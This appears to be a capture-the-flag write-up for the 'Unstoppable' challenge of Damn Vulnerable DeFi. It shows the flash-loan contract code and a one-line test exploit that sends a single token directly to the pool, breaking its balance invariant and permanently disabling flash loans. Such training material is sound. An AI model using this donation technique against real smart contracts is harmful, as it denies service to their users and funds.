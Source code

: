 ```yaml
---
description: 'Challenge #1'
---
```


# Unstoppable

## Mission

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to <mark style="color:yellow;">attack and stop the pool from offering flash loans</mark> ...

"You start with 100 DVT tokens in balance."

* The goal is to stop the pool from offering <mark style="color:yellow;">flash loans</mark>
* Essentially a Denial of Service (DoS) attack

## Exploit

* We know that we need to cause a form of DoS
* We need to discover where the flash loan function occurs

### Flash Loan Function

```
// ...
require(borrowAmount > 0, "Must borrow at least one token");
require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
assert(poolBalance == balanceBefore);
require(
  balanceAfter >= balanceBefore,
  "Flash loan hasn't been paid back"
);
```

* Now we have identified where the flash loan function takes place
* The borrow amount must be greater than zero
* <mark style="color:yellow;">If the balance and the pool balance are not equivalent, the contract will always fail on the flash loan function above</mark>

### Exploit Code

Add the following to the //enter exploit code here function in the challenge.js file:

```
it('Exploit', async function () {
        // transfer tokens to it to break it!
    await this.token.transfer(this.pool.address, 1)
    });
```

* Go to terminal and execute <mark style="color:yellow;">`yarn run unstoppable`</mark> inside the /damn-vulnerable-defi folder and you will get a checkmark next to the unstoppable challenge

### Proof

<figure><img src="../../.gitbook/assets/image (10) (2) (1).png" alt=""><figcaption></figcaption></figure>
